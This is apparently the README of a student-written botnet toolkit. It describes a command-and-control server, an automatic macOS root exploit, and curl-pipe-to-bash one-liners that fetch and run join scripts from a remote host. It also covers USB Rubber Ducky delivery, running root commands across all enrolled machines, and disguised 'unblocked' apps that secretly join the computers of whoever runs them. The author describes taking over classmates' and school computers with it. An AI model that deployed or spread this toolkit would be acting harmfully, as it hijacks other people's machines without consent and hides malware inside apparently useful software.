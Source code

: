 # net
Some helpful scripts for building and managing small botnets.

## Why I wrote this
I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the hacking class in which I partook. Such behavior was encouraged, and I did not violate any rules.

I also used this code to prank a few of my classmates in my Hon. Chemistry 10 class.

Please note that I strictly use this code for pranks and for educational purposes. I do not run a DDoSsing botnet or other such illegal operation and do not condone the use of this code to run such an operation.

## Compatible Operating Systems
* macOS/OS X - on 10.11 (El Capitan), exploit will be used to gain a root shell and payload will be automatically delivered. For other versions, root must be obtained manually.
* Debian-based GNU/Linux - Tested on Kali Linux and Raspbian, should work on other distros. Root exploit isn't automatic on any Linux, so you'll need to already have root access.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes, such as new nodes' joining signals, updates on connection state, and other data. All requests to the server are printed to the terminal, and important ones are written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
For Macs, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, then run and remove it.

Some code to use a Rubber Duck USB as a delivery mechanism for Macs can be found [here](https://github.com/ErikBoesen/duck).

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Some code to use a Rubber Duck USB as a delivery mechanism for Linux can be found [here](https://github.com/ErikBoesen/duck-kali).

Here are simple one-liners to join the botnet (I recommend purchasing a simple domain for easy C&C):

Mac:
```sh
curl -L [domain]:2042/mac/join.sh |bash
```
Linux:
```sh
curl -L [domain]:2042/linux/join.sh |bash
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

This code is intended for use with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online. `die.sh` works strictly on Macs, and will kill open applications, turn off the screen, and initiate shutdown on the computer owned by the student with the provided username. Note: Don't do this.

### Apps
The `apps` directory contains some "unblocked" versions of various applications. These versions will work on secured MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
